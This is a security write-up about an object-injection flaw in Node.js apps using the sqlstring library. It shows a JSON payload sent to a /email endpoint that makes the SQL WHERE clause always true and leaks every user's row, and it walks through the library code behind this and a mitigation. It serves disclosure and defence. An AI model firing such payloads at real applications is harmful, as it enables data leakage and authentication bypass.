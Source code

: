```yaml
---
layout: post
title: "Object Injection to SQL Injection"
date: 2021-05-26
---
```


# Object Injection to SQL Injection

Node.js + sqlstring

In this section we explain an interesting case of SQL injection: a possible scenario, details of the issue, potential impacts, and mitigations.

- What is Object Injection?
    

> Object Injection is an application-level vulnerability that can allow an attacker to trigger different types of malicious behavior — such as code injection, SQL injection, path traversal, or application denial of service — depending on the context. The vulnerability occurs when user-supplied input is not properly sanitized. (OWASP)

- What is SQL Injection?
    

> A SQL injection attack consists of inserting or “injecting” an SQL query through client-supplied input into an application. (OWASP)

## Brief scenario

While analyzing an application during one of our tests, we observed unusual behavior for certain SQL injection payloads, although nothing we tried was directly exploitable. We then tried sending the parameter as an object to see how the application would handle it — that’s when the issue manifested.

The environment performs email validation and returns the data of the responsible person:

```js
POST /email
Host: localhost
Content-Type: application/json

{"email":"guest@example.com"}

--------------------------------

HTTP/1.1 200 OK
content-type: application/json

{
  "error": false,
  "data": [
    {
      "name": "guest",
      "password": "1234",
      "email": "guest@example.com"
    }
  ]
}
```

In this case the endpoint deserializes the provided value as an object instead of converting it to a string; an attacker can therefore craft an object payload that returns all rows from the table, for example:

```js
POST /email
Host: localhost
Content-Type: application/json

{"email":{"email":"1"}}

--------------------------------

HTTP/1.1 200 OK
content-type: application/json

{
  "error": false,
  "data": [
    {
      "name": "admin",
      "password": "admin",
      "email": "admin@example.com"
    },
    {
      "name": "guest",
      "password": "1234",
      "email": "guest@example.com"
    }
  ]
}
```

When analyzing the results, it is possible to check the data exposure of other users whose email does not match. This was due to the failure of object injection in conjunction with sql injection, which caused a “confusion” in the SQL query, responding with all values.

## Details

To detail the previous scenario, we have to think about the sql query formed by the database:

MYSQL

```sql
SELECT * FROM \`users\` WHERE email = ?
```

So, when receiving an email, the database returns all the attributes from the user table, but where is the “confusion” going to happen when providing an object instead of a value?

Everything will happen in the most common dependency for all nodejs libraries that communicate with the mysql database, the library called sqlstring.

_Simple SQL escape and format for MySQL_ [https://github.com/mysqljs/sqlstring](https://web.archive.org/web/20230402051059/https://github.com/mysqljs/sqlstring)

---

## Note:

Before going into, it is important to mention that the developer was called and he defined this information as something that should be treated by the application that uses the library, as a validation of the inputs.

---

The sql string library has the escape function, which will perform a treatment for some characters, so if we pass any of these as payloads, a treatment will occur preventing the common sql injection:

```javascript
var ID_GLOBAL_REGEXP    = /\`/g;
var QUAL_GLOBAL_REGEXP  = /\./g;
var CHARS_GLOBAL_REGEXP = /[\0\b\t\n\r\x1a\"\'\\]/g; // eslint-disable-line no-control-regex
var CHARS_ESCAPE_MAP    = {
  '\0'   : '\\0',
  '\b'   : '\\b',
  '\t'   : '\\t',
  '\n'   : '\\n',
  '\r'   : '\\r',
  '\x1a' : '\\Z',
  '"'    : '\\"',
  '\''   : '\\\'',
  '\\'   : '\\\\'
};
```

But if we pass an object everything will be different, look it:

```javascript
SqlString.escapeId = function escapeId(val, forbidQualified) {
  if (Array.isArray(val)) {
    var sql = '';

    for (var i = 0; i < val.length; i++) {
      sql += (i === 0 ? '' : ', ') + SqlString.escapeId(val[i], forbidQualified);
    }

    return sql;
  } else if (forbidQualified) {
    return '\`' + String(val).replace(ID_GLOBAL_REGEXP, '\`\`') + '\`';
  } else {
    return '\`' + String(val).replace(ID_GLOBAL_REGEXP, '\`\`').replace(QUAL_GLOBAL_REGEXP, '\`.\`') + '\`';
  }
};
```

On the last return, he put the key of our object inside `` being as follows `key`. Because the escapeId function is called by objectToValues, the return will have an additional:

```javascript
return SqlString.objectToValues(val, timeZone);
```

```javascript
SqlString.objectToValues = function objectToValues(object, timeZone) {
  var sql = '';

  for (var key in object) {
    var val = object[key];

    if (typeof val === 'function') {
      continue;
    }

    sql += (sql.length === 0 ? '' : ', ') + SqlString.escapeId(key) + ' = ' + SqlString.escape(val, true, timeZone);
  }

  return sql;
};
```

So, if we pass a simple object like {“a”: “b”}, the return according to the code sequence will be:

```sql
\`a\`="b"
```

So taking as an example the previous query to the bank, the “logic” for results will be modified, it will analyze if the result is true/false:

```sql
SELECT * FROM \`users\` WHERE \`email\` = \`a\` = "b"
```

Column a does not exist in the users table, and returns an error, but if we provide an existing column as email and the value 1, we will have the expected result:

```sql
SELECT * FROM \`users\` WHERE \`email\` = \`email\` = "1"
```

## Impact

Unlike the other sql injections, the impact of this will depend on the query, but the attacker is able to make leaks of table contents, as already seen, bypass authentication and enumerate columns.

**This case has been seen in several github repositories!**

## Mitigation

As we can see, this flaw depends on the application allowing an object to reach the query, this being avoided, it will prevent sql injection. At first the objective is to remove the passage of the non-sanitized element into the query, a good way to handle this user input would be through JSON.stringfy, which will turn the content into a string, thus avoiding other errors.